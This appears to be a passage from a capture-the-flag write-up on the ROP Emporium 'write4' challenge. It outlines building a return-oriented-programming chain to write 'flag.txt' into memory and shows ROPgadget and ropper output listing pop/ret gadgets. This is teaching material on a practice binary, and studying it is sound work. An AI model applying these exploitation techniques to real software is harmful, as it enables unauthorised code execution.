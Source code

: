 ### Building the ROP Chain

The first step you should take is to find the flag in memory. `strings write4 | grep flag` tells us it's not there. Bummer. Can we introduce it into the binary somehow?

Our next step should be to check the gadgets to see if there's a way to pass data into memory. We need a way to store the string _flag.txt_ at an address of our choice and then pass that address into `print_file`. Let's look around `ROPgadget` for some `pop` gadgets:

{% tabs %}
{% tab title="ROPgadget" %}
```nasm
$ ROPgadget --binary write4 --only "pop|ret"
Gadgets information
============================================================
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400588 : pop rbp ; ret
0x0000000000400693 : pop rdi ; ret
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004e6 : ret
```
{% endtab %}

{% tab title="ropper" %}
```nasm
$ ropper --file write4 --search "pop|ret" 
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop|ret

[INFO] File: write4
0x000000000040068c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068e: pop r13; pop r14; pop r15; ret; 
0x0000000000400690: pop r14; pop r15; ret; 
0x0000000000400692: pop r15; ret; 
0x000000000040057b: pop rbp; mov edi, 0x601038; jmp rax; 
0x000000000040068b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068f: pop rbp; pop r14; pop r15; ret; 
0x0000000000400588: pop rbp; ret; 
0x0000000000400693: pop rdi; ret; 
0x0000000000400691: pop rsi; pop r15; ret; 
0x000000000040068d: pop rsp; pop r13; pop r14; pop r15; ret; 
0x00000000004004e6: ret; 
```
{% endtab %}
{% endtabs %}
